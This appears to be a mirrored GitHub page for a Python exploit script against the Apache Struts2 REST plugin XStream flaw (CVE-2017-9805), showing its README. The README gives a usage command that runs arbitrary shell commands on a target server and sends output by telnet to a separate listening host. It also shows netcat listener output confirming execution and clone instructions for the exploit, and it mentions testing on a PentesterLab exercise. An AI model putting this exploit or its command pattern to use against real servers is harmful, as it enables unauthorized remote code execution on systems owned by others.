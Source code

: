# -CVE-2017-9805

Exploit script for Apache Struts2 REST Plugin XStream RCE (‎CVE-2017-9805)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/0x00-0x00](https://github.com/0x00-0x00) |
| Url      | [https://github.com/0x00-0x00/-CVE-2017-9805](https://github.com/0x00-0x00/-CVE-2017-9805)                                               |
| Stars    | 15                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* apache* cve* exploit* struts

</details>

## Readme

# Vulnerability information
Resources: 
    * https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-9805

# What is this?
A python exploit script capable of executing remote commands into the shell of a system hosting a Struts2 vulnerable to S2-052. 

# Usage
╭─root@blackshell ~/  
╰─# python s2-052.py --target 'http://192.168.0.233/orders/3' --command "echo pwned | telnet 192.168.0.122 1234"
```bash
[*] Apache Struts XStream REST vulnerability - S2-052
[*] Creating payload ...
[*] Exploit packet has 2582 bytes.
[*] Sending exploit packet ...
[+] Exploit packet has been sent.
```

╭─zc00l@blackshell ~/  
╰─$ nc -lvp 1234
```bash
listening on [any] 1234 ...
connect to [192.168.0.122] from vulnerable.lan [192.168.0.233] 55791
pwned
```

Tested on pentesterlab vulnerable machine of exercise s2-052.

# Author rights
This exploit script was written by me (zc00l) and can be used by anyone.

In case you want to use or modify this script, please give the rightful credits for any work already done.



## Get the content

```
git clone https://github.com/0x00-0x00/-CVE-2017-9805
cd -CVE-2017-9805
```

{% embed url="https://github.com/0x00-0x00/-CVE-2017-9805" %}

<figure><img src="https://avatars.githubusercontent.com/u/23364530?v=4" alt=""><figcaption><p>0x00-0x00</p></figcaption></figure>
